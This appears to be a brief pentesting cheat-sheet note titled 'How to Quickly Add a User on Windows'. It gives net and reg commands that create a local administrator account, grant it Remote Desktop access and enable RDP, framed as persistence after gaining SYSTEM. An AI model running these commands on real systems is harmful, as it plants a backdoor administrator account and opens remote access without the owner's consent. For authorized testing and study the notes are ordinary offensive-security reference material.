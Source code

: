 # How to Quickly Add a User on Windows

author:: Nathan Acks  
date:: 2022-04-25

If you've got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add `
	"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" `
	/v fDenyTSConnections /t REG_DWORD /d 0 /f
```

* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
